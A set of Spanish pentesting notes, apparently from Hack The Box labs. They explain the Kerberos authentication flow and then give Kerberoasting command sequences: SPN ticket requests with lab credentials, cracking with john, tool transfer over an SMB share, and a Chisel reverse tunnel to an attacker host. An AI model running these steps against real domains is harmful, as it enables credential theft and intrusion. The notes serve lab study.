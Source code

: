 Kerberos -->  protocolo de autenticación de redes, permite a los clientes 			demostrar su identidad.

** Funcionamiento **
![[Pasted image 20210714193509.png]]
1.- Usuario introduce nombre/contraseña --> genera una clave secreta hash
2.- Usuario solicita servicio "Kerberos" a AS.
3.- AS comprueba usuario en su base de datos y genera has con su password. 
> Envía:
> A --> Client/TGS session key cifrada usando la clave securizada del usuario.
> B --> Ticket-Granting ticket (ID cliente, dirección de red, validez y client/TGS key) con doble cifrado TGS

4.- Cliente descifra mensaje A y parcialmente mensaje B ( no puede descifrar el TGT).
5.- Cliente envía al TGS:
> C --> El Ticket-Granting ticket del mensaje B y el ID del servicio solicitado.
> D --> Autenticador (ID cliente + marca de tiempo) cifrado con el client/TGS key.

6.- TGS envía al cliente:
> E --> Client-to-server ticket (ID cliente, dirección de red, validez y cliente/server_session key), cifrado con clave usuario.
> F --> Client/server sesion key cifrada con client/TGS session key.

7.- Cliente recibe mensajes E y F, puede autenticarse contra el SS. Se conecta al SS y envía:
> E --> Mensaje del paso anterior.
> G --> Autenticador ( ID cliente + marca de tiempo) cifrado con client/server session key.

8.- El SS descifra el ticket usando su clave secreta y envía al cliente:
> H --> Marca de tiempo + 1 y cifrado el client/server session key.

** Kerberoasting Attack (Simple) **
Ataque sobre servicio Kerberos con credenciales válidas.
> Sincronización con el servidor.
> `rdate -n 10.10.10.100`
> Obtener TGS (Ticket Granting Service) del usuario.
> `GetUserSPNs.py active.htb/SVC_TGS:GPPStillStandingStrong2K18 -dc-ip 10.10.10.100 -request`
> Crackear el hash del TGS
> `john --wordlist=rockyou.txt hash`

** Pasos de ataque a Kerberos **
Utilizar los tickets para realizar cracking sobre las contraseñas de manera offline.
> Ver puertos abiertos:
> `netstat -ap tcp`
> Descargar Rubeus: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
> Pasar rubeus.exe a máquina objetivo:
> Montar directorio compartido por SMB:
> `impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar`
> Tranferir rubeus.exe:
> `net user \\10.10.14.6\smbFolder /u:s4vitar s4vitar`
> `copy \\10.10.14.6\smbFolder\rubeus.exe C:\Users\amanda\appdata\local\temp\rubeus.exe`
> Ejecutar Rubeus:
> `rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972`
> Utilizar rutas absolutas si no funciona.
> Obtenemos el server ticket, con el cual se podrá obtener el hash NTML de la cuenta asociada al servicio de dominio.


** Transferir Ticket gracias a Remote Port Forwarding con Chisel ** 
> Descargar releases para Linux y WIndows (amd64): https://github.com/jpillora/chisel/releases
> Transferir "chisel_windows_amd64" a la máquina objetivo ya descomprimido:
> `gunzip chisel_windows_amd64.exe.gz`
> `impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar`
> `copy \\10.10.14.6\smbFolder\chisel_windows_amd64.exe C:\Windows\Temp`
> Crear Port Forwarding.
> Montar servidor Chisel en máquina atacante:
> `./chisel_linux_amd64 server -p 8008 --reverse`
> Montar cliente Chisel en máquina objetivo:
> `C:\Windows\Temp\chisel_windows_amd64.exe client 10.10.14.6:8008 R:88:127.0.0.1:88 R:389:localhost:389`
> Comprobar Port Forwarding en máquina atacante:
> `netsat -nat | grep "88"`
> Transferir Ticket para hacer kerberoasting:
> `impacket-GetUserSPns -request -dc -ip 127.0.0.1 htb.local/amanda -save -outfile GetUserSPNs.out`
> Obtenemos ticket, que habrá que tratarlo y crackearlo.


** Tratar el hash obtenido con el ataque kerberoasting **
> Quitamos los saltos de línea y espacios:
> `cat hash | sed 's/^*//' | tr -d '\n'; echo`
> Crackeamos el hash:
> `john --wordlist=rockyou.txt hash`
> Comprobar si es válido con CME:
> `cme smb 10.10.10.103 -u 'mrlky' -p 'Football#7'`